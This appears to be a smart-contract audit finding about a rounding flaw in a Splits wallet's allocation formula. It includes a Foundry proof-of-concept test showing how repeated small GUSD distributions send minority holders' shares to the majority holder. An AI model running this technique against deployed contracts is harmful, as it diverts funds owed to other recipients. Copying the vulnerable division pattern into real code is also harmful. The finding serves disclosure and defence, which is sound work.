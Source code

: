 When distributions are calculated (using either push or pull), the `_split.calculateAllocatedAmount()` function is used to determine the amount.

```solidity
allocatedAmount = _amount * _split.allocations[_index] / _split.totalAllocation;
```
In the situation where one user holds a majority position in a Split, and the decimals of the token being distributed are very low, it is possible that an amount could be distributed such that minority positions are rounded down to zero and all funds are sent to the majority position.

Of course, with most normal tokens, the values required are so small that this doesn't present a risk. However, when tokens with very low decimals (such as [Gemini's GUSD](https://etherscan.io/token/0x056Fd409E1d7A124BD7017459dFEa2F387b6d5Cd?a=0x5f65f7b609678448494De4C87521CdF6cEf1e932)) are combined with a low cost chain, the risk presents itself.

(Note that, while GUSD is a rarer token with wei valued at $0.01 USD, more common tokens like WBTC could face a similar risk, with wei valued at $50,000 / 10**8 = 1/20th of a cent.)

**Proof of Concept**

The following lays out the worst case scenario. A Split is heavily skewed towards a single user and the token being distributed has only 2 decimals. In this case, any time that $9.99 USD is distributed, it results in $8.99 going to the majority shareholder, while the other dollar remains in the Split. If this is repeated, the majority shareholder ends up with all the funds.

```solidity
function testZach_distributeMajorityTheft() public {
    // set up a split with 101 receivers, a 90% majority and one hundred 0.1% minorities
    address[] memory _receivers = new address[](101);
    uint[] memory _amounts = new uint[](101);

    _receivers[0] = makeAddr("majority");
    _amounts[0] = 900;

    for (uint i = 1; i < 101; i++) {
        _receivers[i] = address(uint160(i));
        _amounts[i] = 1;
    }

    SplitV2Lib.Split memory split = SplitV2Lib.Split({
        recipients: _receivers,
        allocations: _amounts,
        totalAllocation: 1000,
        distributionIncentive: 0,
        distributeByPush: true
    });
    wallet.initialize(split, address(0));

    // start the split off with $1000 of GUSD (1000_00)
    GUSD gusd = new GUSD();
    deal(address(gusd), address(wallet), 1000 * 10 ** gusd.decimals());
    assertEq(gusd.balanceOf(address(wallet)), 1000_00);

    // distribute GUSD in chunks of $9.99, which will only send funds to the majority
    for (uint i; i < 111; i++) {
        wallet.distribute(split, address(gusd), 9_99, 0, address(0));
    }

    // most GUSD is with the majority shareholder; the rest is in the wallet; minority partners have none
    assertEq(gusd.balanceOf(_receivers[0]), 997_89);
    assertEq(gusd.balanceOf(address(wallet)), 2_11);
}
```

